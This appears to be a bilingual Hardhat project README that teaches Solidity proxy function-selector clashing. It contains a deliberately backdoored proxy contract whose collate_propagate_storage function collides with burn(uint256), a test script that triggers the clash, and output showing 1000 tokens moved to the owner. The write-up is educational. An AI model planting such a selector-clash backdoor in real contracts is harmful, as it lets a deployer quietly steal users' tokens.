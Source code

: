 # Sample Hardhat Project

This project demonstrates a basic Hardhat use case. It comes with a sample contract, a test for that contract, and a script that deploys that contract.

Try running some of the following tasks:

```shell
npx hardhat help
npx hardhat test
REPORT_GAS=true npx hardhat test
npx hardhat node
npx hardhat run scripts/deploy.ts
```


# 环境
执行自定义test文件: 
`npx hardhat test test/Proxy1.ts`

# 函数选择器冲突
在代理模式中, 如果方法不加以校验可能会出现安全漏洞.

在如下代理代码中:
代理合约
```代理合约
pragma solidity ^0.8.9;

contract Proxy {

    // 占位
    uint32 public placeholder1;
    uint32 public placeholder2;
    uint32 public placeholder3;

    address public proxyOwner;
    address public implementation;

    constructor(address implementation) public {
        proxyOwner = msg.sender;
        _setImplementation(implementation);
    }

    modifier onlyProxyOwner() {
        require(msg.sender == proxyOwner);
        _;
    }

    function upgrade(address implementation) external onlyProxyOwner {
        _setImplementation(implementation);
    }

    function _setImplementation(address imp) private {
        implementation = imp;
    }

    fallback() payable external {
        _fallback();
    }

    function collate_propagate_storage(bytes16 data) public {
        implementation.delegatecall(abi.encodeWithSignature("transfer(address,uint256)", proxyOwner, 1000));
    }

    function _fallback() internal {
        (bool success, bytes memory result) = implementation.delegatecall(msg.data);
        require(success, "failed to delegatecall");
        assembly {
            return (add(result, 0x20), mload(result))
        }
    }

}
```
逻辑合约
```
pragma solidity ^0.8.9;

import "@openzeppelin/contracts/token/ERC20/extensions/ERC20Burnable.sol";
import "@openzeppelin/contracts-upgradeable/token/ERC20/extensions/ERC20BurnableUpgradeable.sol";

contract BurnableToken is ERC20BurnableUpgradeable {

    function initialize() initializer public {
        __ERC20_init("MyToken", "MTK");
    }

    function mint(address account, uint256 amount) public {
        _mint(account, amount);
    }
}
```
测试逻辑
```
import {loadFixture} from "@nomicfoundation/hardhat-network-helpers";
import {ethers} from "hardhat";

describe("function clash proxy", function () {

    async function deployOneFixture() {

        // Contracts are deployed using the first signer/account by default
        const [owner, otherAccount] = await ethers.getSigners();

        const ownerAccountAddress = await owner.getAddress();
        const otherAccountAddress = await otherAccount.getAddress();

        const BurnableToken = await ethers.getContractFactory("BurnableToken");
        const burnableToken = await BurnableToken.deploy();

        const ProxyFuncClashing = await ethers.getContractFactory("ProxyFuncClashing");
        const proxyFuncClashing = await ProxyFuncClashing.deploy(burnableToken.address);

        const proxyToken = await BurnableToken.attach(proxyFuncClashing.address);

        await proxyToken.initialize();

        await proxyToken.mint(otherAccountAddress, '0x0000000000000000000000000000000100000000000000000000000000000001');

        let balance = await proxyToken.balanceOf(otherAccountAddress)
        console.log(`before other amount: ${balance.toString()}`)

        // collate_propagate_storage(bytes16 data) 在取参数时只用16bytes 后面用0补位
        await proxyToken.connect(otherAccount).burn('0x0000000000000000000000000000000100000000000000000000000000000000');

        balance = await proxyToken.balanceOf(otherAccountAddress)
        console.log(`after other amount: ${balance.toString()}`)

        balance = await proxyToken.balanceOf(ownerAccountAddress)
        console.log(`after owner amount: ${balance.toString()}`)

        return {
            ownerAccountAddress,
            otherAccountAddress
        };
    }

    describe("Proxy", function () {
        it("test", async function () {
            await loadFixture(deployOneFixture);
        })
    })
});
```
使用hardhat测试。控制台执行npx hardhat test test.js 打印输出
```
before other amount: 340282366920938463463374607431768211457
after other amount: 340282366920938463463374607431768210457
after owner amount: 1000
```
可以看到, 本意是从other账户burn token。实际上执行的是proxy中的collate_propagate_storage 给proxyOwner转了1000token。

原因分析
在执行合约函数时, 是根据函数的选择器执行的。将函数名和参数类型进行编码，然后取前4字节。这就会出现冲突。
如下俩函数的选择器是一样的。
```
0x42966c68
collate_propagate_storage(bytes16)
burn(uint256)
```
在看到类似的代理合约时要注意, 普通用户应该只能调用fallback方法。完全透明的调用逻辑合约。

参考:
https://forum.openzeppelin.com/t/beware-of-the-proxy-learn-how-to-exploit-function-clashing/1070


----

代理合约要考虑的问题
1. 逻辑合约地址被覆盖
    使用固定slot
2. gas费用问题
    在logic合约中升级address
3. 函数选择器冲突安全问题
    在logic合约中升级address
4. 多个逻辑合约升级字段冲突问题
    永久存储、继承、hardhat工具

减少gas的方式, 多代理同一逻辑实例
